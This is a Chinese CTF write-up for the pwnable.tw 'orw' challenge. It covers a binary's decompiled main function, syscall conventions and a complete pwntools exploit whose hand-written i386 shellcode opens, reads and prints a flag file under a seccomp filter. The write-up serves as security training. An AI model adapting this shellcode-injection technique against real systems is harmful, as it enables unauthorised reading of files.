



## 0x00 分析

首先，题目的目的是

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

```

也就是只能通过`open`、`read`、`write`，来读取文件`/home/orw/flag`

ida 分析之，即从stdin读取0xc8=200个字节，然后执行这段代码

ida的f5如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  // ((void (*)(void)) 转换为指向函数的指针类似
  ((void (*)(void))shellcode)();
  return 0;
}

```

`void(*)(void)`是函数指针，函数类似原型`void function(void)`

```c
void(*p)(void); /*定义一个函数指针*/
p=(void(*)(void))&shellcode;
p();

```

因此，本题的主要目的是构造shellcode

以下是需要注意的点

* [系统调用号](http://syscalls.kernelgrok.com/)

<!-- todo 调试说明？ -->
* linux 32位的入参顺序  从右至左依次入栈
      
    > linux 64位参数传递是按照rdi、rsi、rdx、rcx、r8、r9的顺序存放第一个参数到第六个参数。对于超出6个参数的入参还是和32位机器一样放入栈中。

* linux的返回值一般在寄存器eax中
* sys_open
* sys_read
* sys_write


## 0x01 调试

sys_open



sys_read



sys_write

这里的"this is a test flag"是自己创建的，用于调试



## 0x02 EXP

```py
# coding:utf-8

from pwn import *
from pwnlib import *

p = process('./orw')
# p = remote('chall.pwnable.tw', 10001)


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])


# push_file_name = shellcraft.i386.pushstr("/home/orw/flag")
# open_file = shellcraft.i386.linux.syscall("SYS_open", 'esp')
# read_file_to_fd = shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30)
# write_from_fd_to_stdin = shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
# shellcode = push_file_name+open_file + read_file_to_fd+write_from_fd_to_stdin

shellcode = ''
# open(file,0,0)
shellcode +=    """
                xor ecx,ecx;
                mov eax,0x5;
                push ecx;
                push 0x67616c66;
                push 0x2f77726f;
                push 0x2f656d6f;
                push 0x682f2f2f;
                mov ebx,esp;
                xor edx,edx;
                int 0x80;
                """
# read(3,file,0x30)
shellcode +=    """
                mov eax,0x3;
                mov ecx,ebx;
                mov ebx,0x3;
                mov dl,0x30;
                int 0x80;
                """
# write(1,file,0x30)
shellcode +=    """
                mov eax,0x4;
                mov bl,0x1;
                int 0x80;
                """

p.recvuntil(":")
payload = asm.asm(shellcode)
gdb_attach(p)
p.send(payload)
p.interactive()

```

## 0x03 其他

看到[Anciety的博客](https://blog.csdn.net/qq_29343201/article/details/78109066?locationNum=3&fps=1)，打算试试dump
（给学弟递茶）

Todo 过段时间再弄